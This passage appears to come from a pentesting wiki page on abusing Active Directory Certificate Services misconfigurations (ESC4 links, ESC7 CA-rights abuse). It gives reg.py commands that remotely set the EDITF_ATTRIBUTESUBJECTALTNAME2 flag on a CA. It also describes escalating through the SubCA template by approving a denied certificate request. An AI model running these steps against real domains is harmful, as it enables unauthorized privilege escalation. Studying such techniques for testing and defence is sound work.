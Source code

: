 {% hint style="warning" %}
If sensitive access entries are identified, creativity will be the best ally.&#x20;

Currently, the best resources for manually abusing this are&#x20;

* [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
* [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)
{% endhint %}

### Certificate Authority (ESC7)

If sufficient rights are obtained over the Certificate Authority (Access Controls, local admin account, ...) an attacker could remotely edit the registries, enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, restart the `CertSvc` service,  and abuse [ESC6 (CA configuration abuse)](ca-configuration.md).

```bash
## Beware: change placeholder values CA-NAME, VALUE, NEW_VALUE

# query flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags

# bitwise OR to set the flag if not already (nothing changed if already set)
python3 -c print("NEW_VALUE:", VALUE | 0x40000)

# write flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" add-keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags -vd NEW_VALUE
```

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute,the built-in template **SubCA** can be usefull.

It is vulnerable to the ESC1 attack, but only **Domain Admins** and **Enterprise Admins** can enroll in it. If a standard user try to enroll in it with [Certipy](https://github.com/ly4k/Certipy), he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the **ManageCA** _and_ **ManageCertificates** rights to validate the failed request. Then, the user can retrieve the issued certificate by specifying the same ID.

#### ManageCA Rights

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object ([how to enumerate](broken-reference)) and modify some CA's attributes like the officiers list (an officier is a user with the **ManageCertificate** rights) or the enabled certificate templates.
